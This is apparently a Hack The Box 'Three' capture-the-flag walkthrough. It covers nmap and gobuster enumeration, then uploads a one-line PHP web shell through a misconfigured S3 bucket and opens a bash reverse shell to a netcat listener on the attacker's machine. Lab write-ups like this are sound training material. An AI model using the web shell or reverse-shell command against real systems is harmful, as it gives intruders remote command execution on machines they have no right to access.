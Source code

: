 # Three (HTB, Starting Point)

## Enumeration

### NMAP

**Command Used**
```
nmap -v -sC -sV -oA nmap/Three [ip-address]
```

**Output**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.49 seconds
zsh: segmentation fault  nmap -v -sV -sC -oA nmap/Three.nmap 10.129.126.225
```

- Found Port **80** open and running service **Apache httpd 2.4.29 ((Ubuntu))**.
- And Port **22/tcp** open and running service **OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)**.

### On Browser

- Let's check the Running Website on the Target!

![img01](screenshots/img01.jpg)

### Gobuster

![img02](screenshots/img02.jpg)

- Looks like a PHP website is running on the machine.

### Inspecting Source Code!

![img03](screenshots/img04.jpg)

- From the Source Code we found an Email Address.

```
Email: mail@thetoppers.htb
```
Looks the the domain name could be **toppers.htb**

- Lets try to add it to our hosts file and then lookup more in the Website.

### Gobuster with vhosts

![img05](screenshots/img05.jpg)

- Found a subdomain named as **s3.thetoppers.htb**.

- Checking the url on the browser:

![img06](screenshots/img06.jpg)

### Getting Details with awscli

**Listing the S3 Resources**

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

**Output**
![img07](screenshots/img07.jpg)

**Uploading our PHP webshell to the Target**

**PHP Shell Command**
```
<?php system($_GET['cmd']);?>
```
**Command to upload Shell to the Target:**
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
### Exploitation

- Checking if our Web-Shell is working fine by runing **id** command:

![img08](screenshots/img11.jpg)

**Serving a http server from our local machine to upload our reverse shell**

```
sudo python -m http.server 8000
```
- Also start the netcat listener on the configured port number same as in your bash reverse shell.

```
nc -lvnp 1234
```

- Now let's upload and run our Bash reverse shell command:

```
bash -i >& /dev/tcp/[ip-address]/1234 0>&1
```
![img09](screenshots/img08.jpg)

- On Netcat we instantly get the connection like this:
![img10](screenshots/img10.jpg)

**DONE**


